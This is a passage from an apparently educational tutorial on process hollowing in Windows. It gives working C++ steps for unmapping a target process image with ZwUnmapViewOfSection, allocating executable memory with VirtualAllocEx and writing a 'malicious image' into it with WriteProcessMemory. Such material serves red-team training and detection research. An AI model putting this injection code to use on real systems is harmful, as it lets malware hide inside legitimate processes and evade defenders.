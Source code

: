 After the base address is stored, we can begin un-mapping memory. We can use `ZwUnmapViewOfSection` imported from _ntdll.dll_ to free memory from the target process.
```cpp
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```





At step four, we must begin by allocating memory in the hollowed process. We can use `VirtualAlloc` similar to _step two_ to allocate memory. This time we need to obtain the size of the image found in file headers. `e_lfanew` can identify the number of bytes from the DOS header to the PE header. Once at the PE header, we can obtain the `SizeOfImage` from the Optional header.
```cpp
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	sizeOfMaliciousImage, // Byte size obtained from optional header
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```


Once the memory is allocated, we can write the malicious file to memory. Because we are writing a file, we must first write the PE headers then the PE sections. To write PE headers, we can use `WriteProcessMemory` and the size of headers to determine where to stop.
```cpp
if (!WriteProcessMemory(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	pMaliciousImage, // Local memory where the malicious file resides
	pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
	NULL
)) {
	cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}
```
